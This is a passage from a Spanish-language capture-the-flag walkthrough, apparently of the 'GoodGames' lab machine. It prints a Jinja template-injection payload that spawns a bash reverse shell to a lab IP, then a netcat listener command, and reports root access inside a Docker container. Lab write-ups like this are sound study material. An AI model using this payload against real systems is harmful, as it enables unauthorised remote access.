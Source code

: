 ```jinja
{{ namespace.__init__.__globals__.os.popen("bash -c 'bash -i >& /dev/tcp/10.10.14.31/1234 0>&1'").read() }}
```

![Código de reverse shell SSTI](/assets/images/goodgames/12-ssti-reverse-shell.png)

---

## 📞 Capturando la shell con netcat

Escuchamos en nuestro equipo con `netcat`:

```bash
nc -lnvp 1234
```

![Escuchando con Netcat](/assets/images/goodgames/13-nc-listen.png)

---

## 🐚 Shell como root dentro del contenedor

¡Tenemos acceso root dentro del contenedor Docker!

![Shell obtenida como root](/assets/images/goodgames/14-docker-root-shell.png)

---